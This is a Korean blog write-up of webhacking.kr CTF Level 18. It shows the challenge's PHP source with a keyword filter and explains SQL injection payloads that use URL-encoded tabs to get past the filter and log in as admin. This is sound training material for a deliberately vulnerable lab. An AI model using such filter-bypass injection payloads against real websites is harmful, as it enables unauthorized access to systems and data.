 ```yaml
---
layout: post
title: Webhacking.kr | Level 18
subtitle: Webhacking CTF Problem Solving
categories: Webhacking
tags: [Pentest, Web]
---
```


**본 문제는 [webhacking.kr](https://webhacking.kr)를 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198863390-54e3e418-676d-4e52-8636-c9881cb88667.jpg" width = 360> 
</p>

**SQL INJECTION**이란 타이틀과 우리가 입력한 값을 제출하는 form이 존재하며 결과 값을 출력해주는 것과 같은 **RESULT**가 존재한다.

view-source를 통해 어떠한 로직인지 확인해보겠습니다.

## 문제 풀이

```php
<?php
if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select id from chall18 where id='guest' and no=$_GET[no]")); // admin's no = 2

  if($result['id']=="guest") echo "hi guest";
  if($result['id']=="admin"){
    solve(18);
    echo "hi admin!";
  }
}
?>
```

입력한 값이 `no`라는 변수로 GET 전송을 진행하는 것을 알 수 있고, `preg_match()`를 통해 필터링이 진행되는 것을 알 수 있다.

* **필터링** : `/, \, |, (, ), &, select, from, 0x, 공백` 대소문자 구문 없이 진행

```sql
select id from chall18 where id='guest' and no=$_GET[no]
```

우리가 입력한 값과 `id='guest'`를 **AND** 연산하여 해당 질의가 chall18 table에 존재하면 해당 ID를 `result` 변수에 저장하는 것으로 볼 수 있다.

주석을 보면 **admin's no = 2**라는 힌트를 알 수 있다. 그렇다면 guest의 id는 무엇인지 입력해보겠습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/198864031-df494e3e-2dae-4a34-bc28-cbd5b17a1501.jpg" width = 360> 
</p>

**1**이라는 값을 넣으니 RESULT에 **hi guest**라는 문구가 출력된다.

그렇다면 해당 결과의 id가 admin이면서 입력 값이 2가 되어야 하는데 현재 질의로는 무조건 `guest`로 되어있다.

SQLi를 통해 해당 구문을 강제로 참으로 만들거나, id를 **admin**으로 다시 전송하는 것이 가능할 것으로 보인다.

```sql
where id='guest' and no=$_GET[no] or no=2 -- 참
```

`where id='guest' and no=$_GET[no]`까지는 **0**값을 전송하면 guest의 id가 0이므로 False이지만, **OR** 연산으로 값이 2인 것이 참이 되어 해결될 것이다.

```sql
where id='guest' and no=$_GET[no] or id="admin" and no=2 -- 강제 Admin
```

**OR** 기준으로 앞쪽의 질의를 거짓으로 하고 뒤 질의가 참인 값을 전달한다면 OR로 인해 참이 되어 해결될 것이다.

해당 값을 form에서 입력하게 된다면 URL Ending으로 입력 값이 변환이 되어 실패하게 된다. 

따라서, URL에 직접 입력하는 방식으로 하면 풀리게 될 것이다.

* `0%09or%09no=2`

* `0%09or%09id="admin"%09and%09no=2`